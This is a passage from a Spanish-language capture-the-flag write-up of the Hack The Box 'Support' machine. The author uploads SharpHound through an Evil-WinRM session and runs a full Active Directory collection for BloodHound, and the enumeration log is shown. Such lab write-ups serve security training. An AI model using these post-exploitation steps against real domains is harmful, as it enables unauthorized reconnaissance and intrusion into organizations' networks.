 Estamos en el grupo `Shared Support Accounts`, pero por el resto, no vemos nada interesante. Vamos a usar `bloodhound`, junto con `sharphound` para explorar distintos vectores de ataque.

```bash wrap=false intitle='Máquina Atacante'
❯ sharphound -h

> sharphound ~ for BloodHound CE collector

/usr/share/sharphound
├── SharpHound.exe
├── SharpHound.exe.config
├── SharpHound.pdb
└── SharpHound.ps1
❯ cp /usr/share/sharphound/SharpHound.exe .
```

```bash wrap=false intitle='Máquina Víctima'
*Evil-WinRM* PS C:\Users\support\Documents> upload ./exploits/SharpHound.exe
                                        
Info: Uploading /home/zelpro/HTB/Support/exploits/SharpHound.exe to C:\Users\support\Documents\SharpHound.exe
                                        
Data: 1748308 bytes of 1748308 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\support\Documents> ./SharpHound.exe -c All
2025-10-18T08:54:02.0572354-07:00|INFORMATION|This version of SharpHound is compatible with the 5.0.0 Release of BloodHound
2025-10-18T08:54:02.2603392-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices, LdapServices, WebClientService, SmbInfo, NTLMRegistry
2025-10-18T08:54:02.3072414-07:00|INFORMATION|Initializing SharpHound at 8:54 AM on 10/18/2025
2025-10-18T08:54:02.3384574-07:00|INFORMATION|Resolved current domain to support.htb
2025-10-18T08:54:02.8854052-07:00|INFORMATION|Loaded cache with stats: 16 ID to type mappings.
 0 name to SID mappings.
 1 machine sid mappings.
 3 sid to domain mappings.
 0 global catalog mappings.
2025-10-18T08:54:02.9009774-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices, LdapServices, WebClientService, SmbInfo, NTLMRegistry
2025-10-18T08:54:03.0415893-07:00|INFORMATION|Beginning LDAP search for support.htb
[...]
2025-10-18T08:54:04.6509512-07:00|INFORMATION|Beginning LDAP search for support.htb Configuration NC
2025-10-18T08:54:05.2915802-07:00|INFORMATION|Producer has finished, closing LDAP channel
2025-10-18T08:54:05.2915802-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-10-18T08:54:11.0259555-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2025-10-18T08:54:11.0572326-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2025-10-18T08:54:11.1822069-07:00|INFORMATION|Status: 312 objects finished (+312 39)/s -- Using 71 MB RAM
2025-10-18T08:54:11.1822069-07:00|INFORMATION|Enumeration finished in 00:00:08.1590336
2025-10-18T08:54:11.2759543-07:00|INFORMATION|Saving cache with stats: 16 ID to type mappings.
 0 name to SID mappings.
 1 machine sid mappings.
 3 sid to domain mappings.
 0 global catalog mappings.
2025-10-18T08:54:11.2759543-07:00|INFORMATION|SharpHound Enumeration Completed at 8:54 AM on 10/18/2025! Happy Graphing!
```

